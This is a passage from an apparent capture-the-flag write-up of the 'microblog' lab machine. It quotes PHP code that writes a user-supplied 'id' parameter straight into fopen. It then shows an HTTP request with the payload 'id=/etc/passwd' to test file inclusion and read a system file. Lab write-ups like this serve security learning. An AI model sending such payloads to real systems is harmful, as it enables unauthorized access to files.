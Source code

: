 ```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```

The Pro user is the target here, as it looks like command injection is possible. The last chunk of code has to do with the upload functions. Most of the functions are somewhat identical to each other, taking 2 POST parameters, with one being called `id`.&#x20;

```php
if (isset($_POST['header']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $html = "<div class = \"blog-h1 blue-fill\"><b>{$_POST['header']}</b></div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");  
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
}
```

In this case, it seems that the `id` parameter is directly passed into `fopen`, meaning this could be vulnerable to LFI. Earlier, we created a new blog which created a new subdomain, so let's test our vulnerability there and confirm that it works.

<figure><img src="../../.gitbook/assets/image (810).png" alt=""><figcaption></figcaption></figure>

```http
POST /edit/index.php HTTP/1.1
Host: test.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://test.microblog.htb
Connection: close
Referer: http://test.microblog.htb/edit/
Cookie: username=1cl26pbf4ftqkk0s7i5ntv84iv
Upgrade-Insecure-Requests: 1



id=/etc/passwd&header=test
```